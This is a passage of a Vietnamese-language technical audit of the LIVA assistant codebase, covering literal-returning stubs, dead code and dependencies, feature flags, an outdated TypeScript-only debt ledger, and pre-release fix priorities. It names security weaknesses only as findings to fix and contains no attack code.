**Không có `unimplemented!()`, `todo!()`, `panic!("not implemented")` nào.** Nhưng có nhiều "stub trả literal" tương đương, **không** được đánh dấu TODO — nguy hiểm hơn vì không grep ra được:

- ~~`mcp/server.rs:176` — tool `control_smarthome` chỉ `format!("Command '{}' sent to '{}'")`, **không** gọi `integrations::smart_home::execute`.~~ **ĐÃ SỬA 26/07/2026** (`45e2e58`): nhánh `"control_smarthome"` nay gọi thẳng `crate::integrations::smart_home::execute(payload)` và trả đúng chuỗi của nó. Lý do ghi tại chỗ đáng chú ý: hai đường vào cùng một năng lực (từ khoá qua `tool_exec`, và LLM qua tool MCP) **phải cho cùng một câu trả lời** — nếu không thì "hai đường khớp nhau" chỉ đúng ở tên tool mà sai ở thứ người dùng nghe được. Cùng đợt, `ControlSmartHomeArgs` bỏ `{device: String, command: String}` để dùng lại **đúng enum** của `integrations::smart_home` (thêm `schemars::JsonSchema`), vì schema chỉ nói `device: string` khiến gemma-4-E4B sinh `"air conditioner"`/`"turn on"` — chọn đúng tool 13/13 mà **tham số sai 9/13**.
- ~~`integrations/smart_home.rs:51-67` — `execute()` chỉ log + trả `Ok(format!("Device '{}' successfully turned '{}'."))`~~ **ĐÃ SỬA 23/07/2026**: trả thông báo trung thực `"Chưa điều khiển được thiết bị thật: … hiện CHƯA kết nối tích hợp nhà thông minh nào"`, có test `test_execute_bao_trung_thuc_khong_thanh_cong_gia` ép không được báo thành công giả. **Vẫn đúng:** không có I/O thiết bị, crate không có dep MQTT/HTTP nào cho việc này — năng lực chưa có, chỉ khác là nó không còn nói dối về điều đó.
- `agent/dispatcher.rs:116-136` — logic 4 role đều là chuỗi hardcode (`"// Auto-generated Rust Code\nfn main() { println!(\"Done: {}\"); }"`, `"Role {:?} stub response"`), **không gọi LLM**. (Từ 22/07/2026 file này nằm sau feature `experimental` nên stub không còn trong build mặc định.)
- `telegram.rs:117` — `/status` trả chuỗi cứng `"🟢 Hệ thống LIVA Native Engine đang hoạt động bình thường."`, không kiểm tra gì.

### 5.7 Hằng số / opcode / dependency chết

- `webrtc/frame.rs:10` `pub const OP_ACK_PLAYING: u8 = 0x04;` — grep toàn repo (`.rs/.ts/.vue/.py`, trừ `target/`): **0 tham chiếu ngoài dòng khai báo**. Server rơi vào `_ => {}` (`main.rs:791`). Nay đã có comment `frame.rs:7-9` ghi rõ đây là **chỗ đặt trước trong hợp đồng wire**, không phải sót — nên vấn đề còn lại chỉ là "quyết định dứt điểm", xem L5.
- `webrtc/frame.rs:6` `OP_FLUSH` thì ngược lại: **server gửi** (`pipeline.rs:462`), **client xử lý** (`liva-ui/src/App.vue:160`, `liva-ui/src/WidgetApp.vue:697`) → sống.
- ~~`Cargo.toml:26` `webrtc = "0.12.0"`~~ — **đã gỡ 22/07/2026** (commit `510c9e2`): dep này không có một lời gọi API nào; gỡ nó kéo theo 45 crate khỏi cây phụ thuộc. `grep "^webrtc" liva-native-core/Cargo.toml` nay = 0 hit. Toàn bộ "WebRTC" của LIVA là WebSocket nhị phân tự chế.
- `mcp/protocol.rs:5` `JsonRpcRequest { id: String }` ép `id` phải là chuỗi; JSON-RPC 2.0 cho phép number/null ⇒ nếu có ngày nối transport thật thì client chuẩn gửi `"id": 1` sẽ fail deserialize. (Chưa gây lỗi vì chưa có transport.)
- ~~`webrtc/signaling.rs:23` bind `0.0.0.0:{port}`~~ — **file đã bị xoá 22/07/2026** (commit `510c9e2`); chính chỗ bind toàn mạng này là lý do nó được ưu tiên gỡ thay vì để nằm chờ.

> 📌 Nguồn đầy đủ (khung nhị phân 9 byte + bảng 5 opcode): [Giao thức IPC và WebSocket](../01-ban-ve/02-giao-thuc-ipc-va-websocket.md)

### 5.8 `cfg(feature)` và env flag tắt mặc định

**Cargo features.** Bản trước ghi nhận **`grep "cfg(feature" src/` = 0 hit** — không dòng Rust nào phân nhánh theo feature. **Câu đó đã bị lật ngược 22/07/2026** (commit `4c08f18`): nay có đúng **3 hit**, tất cả thuộc feature `experimental`:

| `file:dòng` | Nội dung | Gate cái gì |
|---|---|---|
| `src/lib.rs:12` | `#[cfg(feature = "experimental")]` | `lib.rs:13` `pub mod passive;` (647 dòng) |
| `src/lib.rs:14` | `#[cfg(feature = "experimental")]` | `lib.rs:15` `pub mod evolution;` (428 dòng) |
| `src/agent/mod.rs:4` | `#[cfg(feature = "experimental")]` | `agent/mod.rs:5` `pub mod dispatcher;` (187 dòng) |

Feature khai ở `Cargo.toml:75` `experimental = []` (mặc định `default = []`, tức **TẮT**). Bốn điểm gate ở tầng test: `tests/sandbox_stress.rs:5`, `tests/self_correction_stress.rs:5`, `tests/swarm_stress_tests.rs:5` (đều là `#![cfg(feature = "experimental")]` gate **cả file**) và `tests/integration_tests.rs:331` (`#[cfg(feature = "experimental")]` trên `test_case_6`).

Chống mục nát: `.github/workflows/test.yml:78-80` chạy `cargo check --all-targets --features experimental` — **compile-check chứ không chạy test**, nên code gated vẫn phải biên dịch được mà CI không phải trả 65 giây `cargo test` lồng nhau.

Ba feature còn lại không đổi: `cuda`/`vulkan` chỉ chuyển tiếp sang `llama-cpp-2`, còn **`openblas = []` là feature RỖNG, hoàn toàn no-op** ⇒ liệt kê `--features openblas` như một build tăng tốc hợp lệ (trong `CLAUDE.md`) là sai.

> 📌 Nguồn đầy đủ (feature build, lệnh build tham chiếu, điều kiện tiên quyết): [Mô hình AI và tài nguyên](../02-van-hanh/02-mo-hinh-ai-va-tai-nguyen.md)

**`cfg` khác đang dùng (không phải feature):**

- `cfg!(all(windows, debug_assertions))` — `llm/engine.rs:371-377`: **chặn cứng vision ở debug build** (CRT-mix abort). Vision chỉ chạy `--release`.
- `#[cfg(windows)]` — toàn bộ `passive/hook.rs:21-291` (Win32 hook), có stub non-windows `:293-300`. *(Nằm bên trong feature `experimental`, tức là cfg lồng cfg.)*
- `#[cfg(target_os = "windows")]` — `evolution/sandbox.rs:56` (fallback `cmd /C cargo test`). *(Cũng nằm trong `experimental`.)*

**Env flag mặc định TẮT.** Không có crate `dotenv`/`dotenvy` trong `Cargo.toml`; `grep dotenv` trên `liva-native-core/` + `liva-desktop/src-tauri/` = 0 hit. `scripts/start_all.ps1` không set env nào. `.env` **KHÔNG tồn tại** ở repo root (chỉ có `.env.example`). ⇒ Trong luồng dev chuẩn, **mọi flag đang ở giá trị mặc định**, `.env.example` chỉ là tài liệu — đây chính là lý do các module [MỘT PHẦN] ở §5.1 (AEC, turn-shadow, VieNeu, Parakeet, wake) không bao giờ chạy nếu không ai set env bằng tay.

Hai phát hiện thuộc về tài liệu này (không phải mô tả cấu hình, mà là **lỗi thiết kế cờ**):

- `LIVA_GAME_N_GPU_LAYERS` (`main.rs:288`) — vòng downshift **early-return** ở `main.rs:293-295` khi `normal_layers == 0` (tức `LIVA_LLM_N_GPU_LAYERS` mặc định) ⇒ **cơ chế game-aware GPU downshift mặc định là no-op hoàn toàn**. Vẫn đúng sau `733ea1b` — commit đó chỉ sửa **cách phát hiện** máy bận, không sửa nhánh GPU.
- ~~`LIVA_AEC_ENABLED` / `LIVA_TURN_SHADOW_ENABLED` so sánh cứng `== Ok("1")`~~ — **đã sửa 21/07/2026** (M5): cả hai nay đi qua `env_flag()` (`main.rs:214`, `main.rs:234`), nhận `1/true/yes/on` và `0/false/no/off`. `LIVA_TTS_VIENEU` cũng đã gộp được (`tts/mod.rs:158` gọi `crate::env_flag`), tức phần "còn tồn" của M5 đã khép.

> 📌 Nguồn đầy đủ (bảng biến môi trường theo nhóm A–F, nơi đọc, mặc định, điều kiện bật): [Cấu hình và biến môi trường](../02-van-hanh/01-cau-hinh-va-bien-moi-truong.md)

### 5.9 Ghi chú phụ về binary

`src/bin/debug_audio.rs`, `src/bin/verify_integrations.rs`, `src/bin/verify_voice.rs` **không có `[[bin]]` khai báo** trong `Cargo.toml` (14 bin được khai báo tường minh, 17 file tồn tại) — vẫn build nhờ autobins mặc định, nhưng khác cấu hình (`test = true`) so với 14 bin còn lại (`test = false`). Đây chính là L7.

---

## 6. Đối chiếu với `tech-debt-ledger.json`

**File thật:** `E:\Project\LIVA\tech-debt-ledger.json` — 16 bản ghi, lần ghi cuối `2026-06-27T02:24:48.522Z` (commit chạm file lần cuối: `2026-06-27 09:40:24 +07:00`). Commit hiện tại `5d69c3c` là `2026-07-08` ⇒ **ledger đã lạc hậu ~11 ngày code và không bao giờ được cập nhật tự động** trong luồng làm việc hiện nay.

### 6.1 Ledger này thực chất là gì

**Không phải danh sách nợ kỹ thuật.** Mỗi bản ghi chỉ có 5 trường:

```json
{ "timestamp": "...", "score": 100, "godComponentsCount": 0,
  "violationsCount": 0, "codeRedTriggered": false }
```

Nguồn sinh: `tests/audit_profiler.ts:302-322`. Công thức điểm (`audit_profiler.ts:251-258`):

```
score = 100 − 5×godComponentsCount − 5×tsErrorsCount − 2×violationsCount   (clamp ≥ 0)
codeRedTriggered = score < 70
violationsCount  = eslintErrors + eslintWarnings + bannedImports + bannedDeps
godComponent     = file .ts có lineCount > 1200   (audit_profiler.ts:147)
```

### 6.2 Vì sao "100/100" không có nghĩa gì với LIVA hôm nay

| Giới hạn của ledger | Bằng chứng | Hệ quả |
|---|---|---|
| **Chỉ quét file `.ts`** — bỏ qua `.vue`, và **bỏ qua toàn bộ Rust** | `audit_profiler.ts:143` `else if (file.endsWith('.ts') && !file.endsWith('.d.ts'))` | Toàn bộ 3 mục CRITICAL, 7 mục HIGH ở trên nằm trong Rust ⇒ **ledger không thể nhìn thấy chúng** |
| Ngưỡng god-component 1200 dòng chỉ áp cho `.ts` | `audit_profiler.ts:147` | `liva-native-core/src/lib.rs` **1.752 dòng**, `db.rs` **1.276 dòng**, `main.rs` **1.249 dòng** (đo lại 22/07/2026) — nếu tính cả Rust thì đã có ít nhất 3 god component thật |
| Một trong 5 tsconfig target **không còn tồn tại** | `audit_profiler.ts:53` liệt kê `desktop_client/tsconfig.json`; kiểm tra thực tế: thư mục `desktop_client/` **không tồn tại** | Bộ đếm `tsErrorsCount` bỏ sót một phần lịch sử; con số cũ không so sánh được với con số mới |
| **Không có npm script nào chạy `audit_profiler.ts`** | `package.json` gốc chỉ có `setup`, `dev`, `build:ui`, `build:desktop`, `prepare`; pre-commit (`.husky/pre-commit`) chạy `lint-staged` + `scripts/ai-pre-commit.cjs`, **không** chạy audit profiler | Ledger chỉ được cập nhật khi ai đó chạy tay ⇒ đóng băng từ 2026-06-27 |
| Ghi vào `logs/audit_scan_results.json` | `audit_profiler.ts:264-300` | `logs/` không track file nào (L6) ⇒ chi tiết đằng sau mỗi điểm số **đã mất**, chỉ còn 5 con số |

### 6.3 Khoản nào còn đúng, khoản nào lỗi thời, khoản nào thiếu

| Đánh giá | Nội dung |
|---|---|
| **Còn đúng** | (1) Bản ghi cuối `score: 100, violationsCount: 0` phản ánh đúng một sự thật hẹp: **phía TypeScript sạch** — ESLint/tsc trên `liva-ui`/`mobile_client`/`packages/liva-common`/`liva-desktop` không còn lỗi, không import package bị cấm (`axios`, `node-fetch`, `sqlite3`…), không file `.ts` nào > 1200 dòng. Điều này khớp với quy tắc pre-commit đang có hiệu lực (cấm `console.*`, cấm `fetch`, cấm `fs*Sync`). (2) Đường cong lịch sử (473 → 0 violation, code-red 2026-06-21 → xanh 2026-06-25) là bằng chứng thật rằng đợt dọn TS đã hoàn tất. |
| **Lỗi thời** | (1) **Điểm 100/100 bị hiểu nhầm thành "sức khoẻ kiến trúc toàn dự án"** — `docs/99-luu-tru/bao-cao-lich-su/liva_test_report.md:47` đang trích nó theo nghĩa đó. Sai: nó chỉ là điểm của lớp TypeScript. (2) Target `desktop_client/tsconfig.json` không còn tồn tại. (3) Mốc thời gian: 2026-06-27, trước cả đợt tích hợp Qwen3-VL / VieNeu / governor game-aware của commit `1bfc4c3`–`5d69c3c`. (4) `codeRedTriggered = score < 70` không gắn với bất kỳ gate CI nào — không ai bị chặn khi code red. |
| **Thiếu (không đo được bằng thiết kế hiện tại)** | (1) **Toàn bộ Rust**: 3 CRITICAL + 7 HIGH ở trên. (2) **Code mồ côi** (1.376 dòng module chết theo đo lại 22/07/2026 — trong đó 1.262 đã rời build mặc định nhờ feature-gate — cộng danh sách hàm `pub` 0 caller ở §5.3) — từng bị `#![allow(dead_code)]` che, không công cụ nào đếm. (3) **Đứt dây core↔client**: 22 lệnh UI không có arm, 14 lệnh core không client, 3 lệnh mobile sai contract. (4) **8 bảng DB không writer**. (5) **Bảo mật**: không có mục nào cho Origin check, path traversal, khoá mã hoá, hardcoded credential. (6) **Nợ tài liệu**: `.env.example` lệch code ≥6 chỗ (L11). (7) **Nợ hạ tầng**: CI không gate (M2), không migration DB (H6), chỉ mục GitNexus ô nhiễm 22,6% (L12). (8) Không có trường `owner`/`due`/`severity`/`status` — không thể theo dõi một khoản nợ từ lúc phát hiện đến lúc trả. |

### 6.4 Đề xuất cho ledger

1. **Đổi tên cho đúng bản chất:** file hiện tại là `ts-health-history.json`, không phải "tech debt ledger". Giữ nguyên dữ liệu lịch sử, đổi tên + thêm ghi chú phạm vi ngay trong file.
2. **Ledger nợ thật** nên là danh sách khoản mục có định danh ổn định (`C1`, `H3`, `M7`, `L12`…) với các trường `severity`, `evidence` (`file:line`), `status`, `opened`, `closed`. Tài liệu này chính là bản chụp đầu tiên của ledger đó.
3. **Mở rộng scanner sang Rust** hoặc bỏ hẳn `score` tổng hợp — một con số duy nhất che phần nguy hiểm nhất của codebase.
4. **Nối vào CI** (M2): nếu giữ `codeRedTriggered`, phải để nó thực sự chặn được PR, nếu không thì bỏ.

---

## 7. Ba việc nên làm trước khi phát hành cho beta tester

1. **C1 + C2** — vá WebSocket (Origin + token) và validate `model_path`. Đây là hai lỗ hổng có thể khai thác từ xa qua trình duyệt, không cần người dùng làm gì sai.
2. **H3 + H6** — cắt cửa sổ lịch sử + thêm `user_version` migration. Cả hai đều là lỗi **chắc chắn** sẽ nổ sau vài ngày dùng thật, và H6 càng để lâu càng khó sửa.
3. **H7** — hoặc nối dây bộ nhớ dài hạn, hoặc sửa mọi tài liệu/hồ sơ để không tuyên bố "H-MEM 3 tầng" như tính năng đã kiểm chứng.

Ba việc này là nội dung của **Giai đoạn 0** trong lộ trình; thứ tự thi hành, ước lượng công sức và hướng dẫn sửa từng bước (F1–F5) nằm ở tài liệu kế tiếp.

> 📌 Nguồn đầy đủ: [Lộ trình sửa lỗi và nâng cấp](03-lo-trinh-sua-loi-va-nang-cap.md)

---

## Liên quan

**Đọc tiếp theo mạch:** [◀ Đối chiếu tuyên bố và thực tế](01-doi-chieu-tuyen-bo-vs-thuc-te.md) · [Lộ trình sửa lỗi và nâng cấp ▶](03-lo-trinh-sua-loi-va-nang-cap.md)

**Tài liệu này dựa vào (nguồn sự thật ở nơi khác):**

- [Kiến trúc tổng thể](../01-ban-ve/01-kien-truc-tong-the.md) — bảng so sánh hai profile chạy, làm nền cho M4
- [Giao thức IPC và WebSocket](../01-ban-ve/02-giao-thuc-ipc-va-websocket.md) — bảng 42 lệnh `handle_command`, khung 9 byte, bảng opcode (C1, §5.4, §5.7)
- [Hệ LLM và prompt](../01-ban-ve/04-he-llm-va-prompt.md) — cấu hình LLM, `n_ctx`, cách dựng prompt (H3)
- [Tầng dữ liệu và bảo mật](../01-ban-ve/07-tang-du-lieu-va-bao-mat.md) — ERD, 15 bảng, kiểm đếm writer, sơ đồ mã hoá (C3, H5, H6, §5.5)
- [Phụ thuộc module và tra cứu file](../01-ban-ve/10-phu-thuoc-module-va-tra-cuu.md) — LOC từng module và sơ đồ phụ thuộc, đối chiếu với §5
- [Cấu hình và biến môi trường](../02-van-hanh/01-cau-hinh-va-bien-moi-truong.md) — bảng biến `LIVA_*` và lệch `.env.example` (§5.8, M5, L11)
- [Mô hình AI và tài nguyên](../02-van-hanh/02-mo-hinh-ai-va-tai-nguyen.md) — bảng model, RAM/VRAM, feature `cuda/vulkan/openblas` (C2, §5.8)
- [Kiểm thử và CI](../02-van-hanh/04-kiem-thu-va-ci.md) — bảng test, 17 binary verify, CI pipeline (M2, M3, L7, L9, L10)
- [Báo cáo khảo sát gốc 2026-07](00-bao-cao-khao-sat-goc-2026-07.md) — khảo sát thô đã sinh ra bản kiểm kê này

**Tài liệu khác dựa vào tài liệu này:**

- [Lộ trình sửa lỗi và nâng cấp](03-lo-trinh-sua-loi-va-nang-cap.md) — lấy mã định danh rủi ro (C1–C3, H1–H7, M1–M9, L1–L12) làm đầu vào xếp ưu tiên 5 giai đoạn
- [Đối chiếu tuyên bố và thực tế](01-doi-chieu-tuyen-bo-vs-thuc-te.md) — lấy bằng chứng code mồ côi (§5) để chứng minh claim nào chưa kiểm chứng được
- [Phụ thuộc module và tra cứu file](../01-ban-ve/10-phu-thuoc-module-va-tra-cuu.md) — lấy danh sách 6 thành phần mồ côi từ §5.1/§5.2
- [Tầng dữ liệu và bảo mật](../01-ban-ve/07-tang-du-lieu-va-bao-mat.md) — lấy kết luận fail-open của `decrypt()` và hệ quả bảng không writer

**Khi sửa code sau đây thì phải cập nhật tài liệu này:**

- `liva-native-core/src/main.rs` — C1 (handshake WS), H5 (panic-on-boot), M5, §5.8
- `liva-native-core/src/lib.rs` — C1/C2 (bề mặt lệnh), M3, M9, §5.4
- `liva-native-core/src/crypto.rs` — C3 (KDF, khoá mặc định, fail-open)
- `liva-native-core/src/db.rs` — H5, H6 (migration), L3, L4, §5.5
- `liva-native-core/src/agent/*` (đặc biệt `graph.rs`) — H3, H4, H7, §5.1/§5.3
- `liva-native-core/src/evolution/*`, `src/passive/*`, `src/mcp/*` — H1 và toàn bộ §5.2/§5.3 (code mồ côi)
- `liva-desktop/src-tauri/src/lib.rs` + `tauri.conf.json` — H2, M4, M6
- `.github/workflows/test.yml` + `liva-native-core/Cargo.toml` — M2, L5, L7, §5.8
